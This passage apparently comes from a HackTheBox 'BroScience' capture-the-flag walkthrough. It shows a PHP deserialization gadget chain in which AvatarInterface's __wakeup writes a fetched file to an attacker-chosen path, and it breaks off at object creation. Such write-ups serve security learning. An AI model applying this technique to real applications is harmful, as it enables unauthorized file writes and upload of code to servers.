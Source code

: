   <img src="/images/walkthroughs/hackthebox/broscience/2_3_users_prefs.png" width="80%">
</p>  


Combining the previous utils.php class, we can append the following lines of code in order to create a payload with the desired parameters in order to call our server and bring the payload to the server:


```php
...

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

# We dont care where it is being deserialize, 
# we can create an object on our scope, so lets create the AvatarInterface
$avatar = new AvatarInterface();

```